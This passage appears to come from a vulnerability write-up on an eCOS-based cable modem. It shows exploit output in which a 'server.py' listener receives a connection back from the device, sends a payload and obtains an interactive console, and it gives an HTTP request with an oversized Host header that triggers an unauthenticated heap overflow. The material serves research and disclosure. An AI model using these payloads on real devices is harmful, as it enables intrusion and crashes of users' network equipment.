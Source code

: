 ```
python server.py
[+] Trying to bind to 0.0.0.0 on port 2049: Done
[+] Waiting for connections on 0.0.0.0:2049:
[+] Got connection from 192.168.22.1 on port 1031
[+] Got connection. Sending payload.
[*] Switching to interactive mode
$ help
!               ?               REM             call            cd             
dir             find_command    help            history         instances      
ls              man             pwd             sleep           syntax         
system_time     usage           
----
btcp            con_high        cpuLoad         cpuUtilization  exit           
mbufShow        memShow         mutex_debug     ping            read_memory    
reset           routeShow       run_app         shell           socket_debug   
stackShow       taskDelete      taskInfo        taskPrioritySet taskResume     
taskShow        taskSuspend     taskSuspendAll  taskTrace       version        
write_memory    zone            
----
[80211_hal] [Console] [HeapManager] [HostDqm] [cablemedea] [eRouter] 
[embedded_target] [enet_hal] [fam] [forwarder] [ftpLite] [httpClient] 
[ip_hal] [itc_hal] [msgLog] [non-vol] [pingHelper] [power] [snmp] [snoop] 
[tr69] 
$  
```

#### Heap Buffer Overflows

We identified another type of memory corruption, this time reachable
from an unauthenticated user perspective.

When parsing the HTTP Host header, the device makes an insecure copy to
the heap, which leads to heap corruption. This corruption can be
triggered by sending the HTTP request displayed below.

```
GET / HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Sending the request will trigger a crash, with a detailed crash log provided by eCOS over serial.

